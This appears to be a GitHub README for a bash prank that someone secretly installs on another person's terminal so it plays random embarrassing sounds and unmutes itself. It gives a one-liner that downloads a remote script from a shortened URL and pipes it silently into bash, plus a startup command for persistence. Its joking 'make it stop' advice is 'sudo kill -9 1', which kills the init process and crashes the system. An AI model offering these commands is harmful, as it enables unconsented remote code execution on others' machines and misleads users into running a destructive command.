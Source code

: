 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.

##ONE LINER##
---------------
```bash
curl -L http://git.to/pal | bash -s > /dev/null 2>&1
```

## Implementation ideas StartUP Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
. ~/.config/al/al.sh & disown
```

## Removal Instructions ##
---------------------------
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
---------------------------
Hint: It starts with m and it plays things. The source code might be a good place to look for things to kill. I recommend:
```bash
    sudo kill -9 1
```